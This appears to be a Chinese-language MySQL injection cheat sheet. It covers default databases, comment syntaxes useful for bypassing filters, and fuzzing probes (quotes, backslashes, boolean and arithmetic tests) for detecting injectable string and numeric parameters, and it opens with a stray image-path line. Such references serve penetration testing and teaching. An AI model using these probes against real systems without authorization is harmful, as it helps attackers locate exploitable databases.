 ```yaml
---
comments: true

---
```


## MySQL默认数据库

| 名称               | 描述              |
|--------------------|--------------------------|
| mysql              | 需要root权限 |
| information_schema | 从版本5开始可用 |


## MySQL注释

MySQL注释是SQL代码中的注释，在执行期间会被MySQL服务器忽略。

| 类型                       | 描述                       |
|----------------------------|-----------------------------------|
| `#`                        | Hash注释                      |
| `/* MYSQL注释 */`      | C风格注释                   |
| `/*! MYSQL特殊SQL */` | 特殊SQL                       |
| `/*!32302 10*/`            | 适用于MYSQL版本3.23.02的注释 |
| `--`                       | SQL注释                       |
| `;%00`                     | Nullbyte                          |
| \`                         | 反引号                          |


## MySQL测试注入

* **字符串**：查询类似`SELECT * FROM Table WHERE id = 'FUZZ';`
    ```
    '	False
    ''	True
    "	False
    ""	True
    \	False
    \\	True
    ```

* **数字**：查询类似`SELECT * FROM Table WHERE id = FUZZ;`
    ```ps1
    AND 1	    True
    AND 0	    False
    AND true	True
    AND false	False
    1-false	    如果存在漏洞则返回1
    1-true	    如果存在漏洞则返回0
    1*56	    如果存在漏洞则返回56
    1*56	    如果不存在漏洞则返回1
    ```
